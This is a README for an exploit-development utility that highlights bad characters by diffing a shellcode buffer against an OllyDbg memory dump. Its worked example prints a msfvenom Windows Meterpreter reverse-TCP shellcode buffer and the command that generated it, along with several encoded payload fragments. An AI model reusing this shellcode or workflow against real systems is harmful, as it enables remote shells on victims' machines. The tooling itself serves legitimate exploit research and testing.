



## expdevBadChars

This is a Bad Characters highlighter intended to be used for exploit development purposes.
It supports multiple input formats and is able to effectively convert from regex-matching format to the byte array.

This makes this tool useful while we have for instance shellcode encoded as a Python string concatenation sequence and we want to quickly compare it with the OllyDbg memory that we just dumped (either in textual, printable form or in raw hex binary bytes).

Additionally, this script has been equipped with _Longest Common Subsequence_ based algorithm designed by _Peter Van Eeckhoutte_ from Corelan.be team in his **Mona.py** tool (specifically `filecompare` function). This makes the tool more robust and reliable even in conditions of not fully matching buffers, shifted a bit or otherwise severly corrupted.


# Usage

Here comes the tool usage, pretty simple:

```
	:: BadChars.py (v:0.2) - Exploit Development Bad Characters hunting tool.
		Equipped with Corelan.be Mona's buffers comparison LCS-based algorithm

Usage: badchars.py [options] good_buffer bad_buffer

Buffers explanation:
	- good_buffer	- file containing buffer considered to be a model one, having expected bytes in it.
	- bad_buffer	- file that has tainted/modified/varying bytes comparing to good_buffer.

Available formats:
	'raw', 'hexdump', 'js-unicode', 'dword', 'xxd', 'byte-array', 'hexstring', 'hexdump-C', 'classic-hexdump', 'escaped-hexes', 'powershell', 'gdb', 'ollydbg', 'ruby', 'c', 'carray', 'python'

Options:
  -h, --help         show this help message and exit
  -c, --colored      Colors the comparison output.
  --format1=FORMAT   Enforce specific format on first buffer.
  --format2=FORMAT   Enforce specific format on second buffer.
  -w, --wide         Wide mode, display hex dumps next to each other.
  -e, --match-empty  Print matching bytes as empty line from bad_buffer.
  -n, --no-lcs       Don't use LCS (Longest Common Subsequence) algorithm in
                     hex dump printing. Go with simple comparison.
  -d, --debug        Debug mode - more verbose.
  -q, --quiet        Quiet mode, no infos. Return 1 if not equal, 0 otherwise.

```

Among available formats we can find those that can me made by tools such as `hexdump`, `hd`, `xxd`, `msfvenom` various output formats (as coded in programming languages, for instance Ruby, Python, Powershell, Java) but also supporting **GDB** `x/xw` / _DWORD_ dump display!

Ever struggled with getting bytes converted from forms as...

```
Payload size: 360 bytes
Final size of bash file: 1582 bytes
$'\x09\xa7\x2e\x57\xa3\x48\x87\x0f\x5b\xf0\x82\xc4\xfa\xfd'\
$'\x18\xa1\x3c\x75\xa9\x55\xf2\x7e\xd8\x45\xe2\x1e\x22\x96'\
$'\xf2\x8a\x22\xfc\xf6\x1c\x74\x68\xf4\x79\xb2\x37\x07\xac'\
$'\xc0\x30\xf7\x31\xf1\x4b\xc1\xa7\xbd\x23\x2d\x28\x3e\xb4'\
```

```
Final size of dw file: 1102 bytes
0x179eb4b1, 0x4553a9f6, 0x7ac6a6af, 0xf1daf3c4, 0xe55b1296, 0xb84a146e, 0x3a4c4fe5, 0x24c5e42a, 
0xdf9cc12f, 0x361ebd9b, 0x778c3ed2, 0xb0ccccdb, 0xc8bb2edb, 0x0ebcd218, 0x95480863, 0x71eadbc3, 
```

```
(gdb) x/12x $rip
0x40050f <main+15>: 0x00fc45c7  0xeb000000  0x05c4bf0e  0xbee80040
0x40051f <main+31>: 0x83fffffe  0x8301fc45  0x7e09fc7d  0x0000b8ec
0x40052f <main+47>: 0xc3c90000  0x1f0f2e66  0x00000084  0x1f0f0000
```

```
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of js_le file: 1080 bytes

%uc9bb%u7a7e%udac3%ud9cf%u2474%u5ff4%uc929%u54b1%uef83%u31fc%u0f5f%u5f03%u9cc6%u3f8f%ue230%uc070%u83c0%u25f9%u83f1%u2e9e%u33a1%u63d4%ubf4d%u97b8%ucdc6%u9714%u7b6f%u9643%ud070%ub9b7%u2bf2%u19e4%ue3cb%u58f9%u190c%u09f3%u55c5%ubda6%u2362%u357b
```

```
Final size of powershell file: 2109 bytes
[Byte[]] $buf = 0xb8,0xda,0x52,0x8e,0xde,0xd9,0xe9,0xd9,0x74,0x24
$buf += 0xf4,0x5d,0x33,0xc9,0xb1,0x54,0x83,0xc5,0x4,0x31
$buf += 0x45,0xf,0x3,0x45,0xd5,0xb0,0x7b,0x22,0x1,0xb6
```

...when all you wanted was to **just get plain raw bytes**?

This tool has been crafted just for this annoying situation.


# Example use case

Consider two input files:

**my-shellcode.txt** (aka _good buffer_)

```
    # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.XXX.YYY LPORT=4444 \
    #           -b '\x00' --encoder-space 740 -f py -v stage3
    stage3 += "\xda\xd1\xd9\x74\x24\xf4\x5e\xba\xb3\x4b\x18\xc3"
    stage3 += "\x29\xc9\xb1\x54\x83\xc6\x04\x31\x56\x14\x03\x56"
    stage3 += "\xa7\xa9\xed\x3f\x2f\xaf\x0e\xc0\xaf\xd0\x87\x25"
    stage3 += "\x9e\xd0\xfc\x2e\xb0\xe0\x77\x62\x3c\x8a\xda\x97"
    stage3 += "\xb7\xfe\xf2\x98\x70\xb4\x24\x96\x81\xe5\x15\xb9"
    stage3 += "\x01\xf4\x49\x19\x38\x37\x9c\x58\x7d\x2a\x6d\x08"
    stage3 += "\xd6\x20\xc0\xbd\x53\x7c\xd9\x36\x2f\x90\x59\xaa"
    stage3 += "\xe7\x93\x48\x7d\x7c\xca\x4a\x7f\x51\x66\xc3\x67"
    stage3 += "\xb6\x43\x9d\x1c\x0c\x3f\x1c\xf5\x5d\xc0\xb3\x38"
    stage3 += "\x52\x33\xcd\x7d\x54\xac\xb8\x77\xa7\x51\xbb\x43"
    stage3 += "\xda\x8d\x4e\x50\x7c\x45\xe8\xbc\x7d\x8a\x6f\x36"
    stage3 += "\x71\x67\xfb\x10\x95\x76\x28\x2b\xa1\xf3\xcf\xfc"
    stage3 += "\x20\x47\xf4\xd8\x69\x13\x95\x79\xd7\xf2\xaa\x9a"
    stage3 += "\xb8\xab\x0e\xd0\x54\xbf\x22\xbb\x30\x0c\x0f\x44"
    stage3 += "\xc0\x1a\x18\x37\xf2\x85\xb2\xdf\xbe\x4e\x1d\x27"
    stage3 += "\xc1\x64\xd9\xb7\x3c\x87\x1a\x91\xfa\xd3\x4a\x89"
    stage3 += "\x2b\x5c\x01\x49\xd4\x89\xbc\x4c\x42\xf2\xe9\x2b"
    stage3 += "\xa5\x9a\xeb\xb3\xd8\x06\x65\x55\x8a\xe6\x25\xca"
    stage3 += "\x6a\x57\x86\xba\x02\xbd\x09\xe4\x32\xbe\xc3\x8d"
    stage3 += "\xd8\x51\xba\xe6\x74\xcb\xe7\x7d\xe5\x14\x32\xf8"
    stage3 += "\x25\x9e\xb7\xfc\xeb\x57\xbd\xee\x1b\x06\x3d\xef"
    stage3 += "\xdb\xa3\x3d\x85\xdf\x65\x69\x31\xdd\x50\x5d\x9e"
    stage3 += "\x1e\xb7\xdd\xd9\xe0\x46\xd4\x92\xd6\xdc\x58\xcd"
    stage3 += "\x16\x31\x59\x0d\x40\x5b\x59\x65\x34\x3f\x0a\x90"
    stage3 += "\x3b\xea\x3e\x09\xa9\x15\x17\xfd\x7a\x7e\x95\xd8"
    stage3 += "\x4c\x21\x66\x0f\xcf\x26\x98\xcd\xed\x8e\xf1\x2d"
    stage3 += "\xb1\x2e\x02\x44\x31\x7f\x6a\x93\x1e\x70\x5a\x5c"
    stage3 += "\xb5\xd9\xf2\xd7\x5b\xab\x63\xe7\x76\x6d\x3a\xe8"
    stage3 += "\x74\xb6\x2b\x67\x7b\x49\x54\x89\x40\x9f\x6d\xff"
    stage3 += "\x81\x23\xca\xf0\xb8\x06\x7b\x9b\xc2\x15\x7b\x8e"
```

and **memdump-from-olly.txt** (aka _bad buffer_ )

```
This is memory dump taken straight from OllyDbg while analysing what the heck is going on with my shellcode:

00D6FCD2  DA D1 D9 74 24 F4 5E BA B3 4B 18 C3 29 C9 B1 54  ÚÑÙt$ô^º³KÃ)ɱT
00D6FCE2  83 C6 04 31 56 14 03 56 A7 A9 ED 3F 5C AF 0E C0  ƒÆ1VV§©í?\¯À
00D6FCF2  AF D0 87 25 9E D0 FC 2E B0 E0 77 62 3C 8A DA 97  ¯Ð‡%žÐü.°àwb<ŠÚ—
00D6FD02  B7 FE F2 98 70 B4 24 96 81 E5 15 B9 01 F4 49 19  ·þò˜p´$–å¹ôI
00D6FD12  38 37 9C 58 7D 2A 6D 08 D6 20 C0 BD 53 7C D9 36  87œX}*Ö À½S|Ù6
00D6FD22  5C 90 59 AA E7 93 48 7D 7C CA 4A 7F 51 66 C3 67  \Yªç“H}|ÊQfÃg
00D6FD32  B6 43 9D 1C 0C 3F 1C F5 5D C0 B3 38 52 33 CD 7D  ¶C.?õ]À³8R3Í}
00D6FD42  54 AC B8 77 A7 51 BB 43 DA 8D 4E 50 7C 45 E8 BC  T¬¸w§Q»CÚNP|Eè¼
00D6FD52  7D 8A 6F 36 71 67 FB 10 95 76 28 2B A1 F3 CF FC  }Šo6qgû•v(+¡óÏü
00D6FD62  20 47 F4 D8 69 13 95 79 D7 F2 AA 9A B8 AB 0E D0   GôØi•y×òªš¸«Ð
00D6FD72  54 BF 22 BB 30 0C 0F 44 C0 1A 18 37 F2 85 B2 DF  T¿"»0.DÀ7ò…²ß
00D6FD82  BE 4E 1D 27 C1 64 D9 B7 3C 87 1A 91 FA D3 4A 89  ¾N'ÁdÙ·<‡‘úÓJ‰
00D6FD92  2B 5C 01 49 D4 89 BC 4C 42 F2 E9 2B A5 9A EB B3  +\IÔ‰¼LBòé+¥šë³
00D6FDA2  D8 06 65 55 8A E6 25 CA 6A 57 86 BA 02 BD 09 E4  ØeUŠæ%ÊjW†º½.ä
00D6FDB2  32 BE C3 8D D8 51 BA E6 74 CB E7 7D E5 14 32 F8  2¾ÃØQºætËç}å2ø
00D6FDC2  25 9E B7 FC EB 57 BD EE 1B 06 3D EF DB A3 3D 85  %ž·üëW½î=ïÛ£=…
00D6FDD2  DF 65 69 31 DD 50 5D 9E 1E B7 DD D9 E0 46 D4 92  ßei1ÝP]ž·ÝÙàFÔ’
00D6FDE2  D6 DC 58 CD 16 31 59 0D 40 5B 59 65 34 3F 0A 90  ÖÜXÍ1Y.@[Ye4?.
00D6FDF2  3B EA 3E 09 A9 15 17 FD 7A 7E 95 D8 4C 21 66 0F  ;ê>.©ýz~•ØL!f
00D6FE02  CF 26 98 CD ED 8E F1 2D B1 2E 02 44 31 7F 6A 93  Ï&˜ÍíŽñ-±.Dj“
00D6FE12  1E 70 5A 5C B5 D9 F2 D7 5B AB 63 E7 76 6D 3A E8  pZ\µÙò×[«cçvm:è
00D6FE22  74 B6 2B 67 7B 49 54 89 40 9F 6D FF 81 23 CA F0  t¶+g{IT‰@Ÿmÿ#Êð
00D6FE32  B8 06 7B 9B C2 15 7B 8E 90 90 90                 ¸{›Â{Ž
```

Now we are going to highlight any **bad characters** in default options set



Or for those who prefer classical output, the **LCS** algorithm may be turned off as well:




Looks like we have a corrupted byte - **0x2f** has been replaced with **0x5c** (`/` => `\`).

What if our **bad_buffer** contained some random bytes inserted inside?

Let's take for instance following `memdump`:

```
00D6FCD2  DA D1 D9 74 24 F4 5E BA B3 4B 18 C3 29 C9 B1 54  ÚÑÙt$ô^º³KÃ)ɱT
00D6FCE2  83 C6 04 31 56 14 03 00 56 A7 A9 ED 3F 5C AF 0E C0  ƒÆ1VV§©í?\¯À
00D6FCF2  AF D0 87 25 9E D0 FC 2E B0 E0 77 62 3C 8A DA 97  ¯Ð‡%žÐü.°àwb<ŠÚ—
00D6FD02  B7 FE F2 98 70 B4 24 96 81 E5 15 B9 01 F4 49 19  ·þò˜p´$–å¹ôI
00D6FD12  38 37 9C 58 7D 2A 6D 08 D6 20 C0 BD 53 7C D9 36  87œX}*Ö À½S|Ù6
00D6FD22  5C 90 59 AA E7 93 48 7D 7C CA 4A 7F 51 66 C3 67  \Yªç“H}|ÊQfÃg
00D6FD32  B6 43 9D 1C 0C 3F 1C F5 5D C0 B3 38 52 33 CD 7D  ¶C.?õ]À³8R3Í}
00D6FD42  54 AC B8 77 A7 51 AA BB CC DD EE BB 43 DA 8D 4E 50 7C 45 E8 BC  T¬¸w§Q»CÚNP|Eè¼
00D6FD52  7D 8A 6F 36 71 67 FB 10 95 76 28 2B A1 F3 CF FC  }Šo6qgû•v(+¡óÏü
00D6FD62  20 47 F4 D8 69 13 95 79 D7 F2 AA 9A B8 AB 0E D0   GôØi•y×òªš¸«Ð
00D6FD72  54 BF 22 BB 30 0C 0F 44 C0 1A 18 37 F2 85 B2 DF  T¿"»0.DÀ7ò…²ß
00D6FD82  BE 4E 1D 27 C1 64 D9 B7 3C 87 1A 91 FA D3 4A 89  ¾N'ÁdÙ·<‡‘úÓJ‰
00D6FD92  2B 5C 01 49 D4 89 BC 4C 42 F2 E9 2B A5 9A EB B3  +\IÔ‰¼LBòé+¥šë³
00D6FDA2  D8 06 65 55 8A E6 25 CA 6A 57 86 BA 02 BD 09 E4  ØeUŠæ%ÊjW†º½.ä
00D6FDB2  32 BE C3 8D D8 51 BA E6 74 CB E7 7D E5 14 32 F8  2¾ÃØQºætËç}å2ø
00D6FDC2  25 9E B7 FC EB 57 BD EE EF DB A3 3D 85  %ž·üëW½î=ïÛ£=…
00D6FDD2  DF 65 69 31 DD 50 5D 9E 1E B7 DD D9 E0 46 D4 92  ßei1ÝP]ž·ÝÙàFÔ’
00D6FDE2  D6 DC 58 CD 16 31 59 0D 40 5B 59 65 34 3F 0A 90  ÖÜXÍ1Y.@[Ye4?.
00D6FDF2  3B EA 3E 09 A9 15 17 FD 7A 7E 95 D8 4C 21 66 0F  ;ê>.©ýz~•ØL!f
00D6FE02  CF 26 98 CD ED 8E F1 2D B1 2E 02 44 31 7F 6A 93  Ï&˜ÍíŽñ-±.Dj“
00D6FE12  1E 70 5A 5C B5 D9 F2 D7 5B AB 63 E7 76 6D 3A E8  pZ\µÙò×[«cçvm:è
00D6FE22  74 B6 2B 67 7B 49 54 89 40 9F 6D FF 81 23 CA F0  t¶+g{IT‰@Ÿmÿ#Êð
00D6FE32  B8 06 7B 9B C2 15 7B 8E 90 90 90                 ¸{›Â{Ž
```

It contains some bytes added, some removed. This is what the binary diffing would look like using LCS-modified algorithm taken from Mona.py:




# TODO

- add some more input formats
